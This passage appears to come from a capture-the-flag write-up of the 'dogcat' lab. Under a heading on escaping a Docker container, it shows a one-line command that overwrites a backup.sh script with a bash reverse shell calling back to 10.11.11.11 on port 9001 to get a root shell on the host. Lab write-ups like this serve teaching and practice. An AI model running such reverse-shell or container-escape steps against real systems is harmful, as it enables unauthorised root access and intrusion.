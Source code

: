 ![Docker Files](/Images/thm_dogcat_docker.jpg)

## Escaping Docker Container

Upon further enumeration I found backup.sh script file located in the /opt/backup directory.
Writing the following reverse shell bash code to the backup.sh file results in a root shell outside of the container.
```
echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.11.11.11/9001 0>&1" >> backup.sh
```
